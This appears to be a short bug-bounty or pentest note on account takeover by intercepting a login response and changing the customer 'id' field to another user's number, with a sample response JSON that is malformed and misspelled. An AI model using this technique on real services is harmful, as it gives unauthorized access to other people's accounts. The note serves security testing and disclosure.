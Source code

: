 ### Account Takover


Wrong Response | Manipulate Response
---------------|--------------------
1. Login with original user 
2. Intercept Response 
3. **{"success":false,","data":{"address":[],"customer":{"id":318620,"full_name":null,"email":original@gmail.com","phone":"+62xxxxxxxxxxx","is_login":1,"last_login":"2021-04xxxxxxx","created_at":2021-04xxxxxx,"updated_at":2021-04xxxxx}},"message":"Csutomer login successfully"}** | Change **"id":"318620"** To Another ID exp.318621



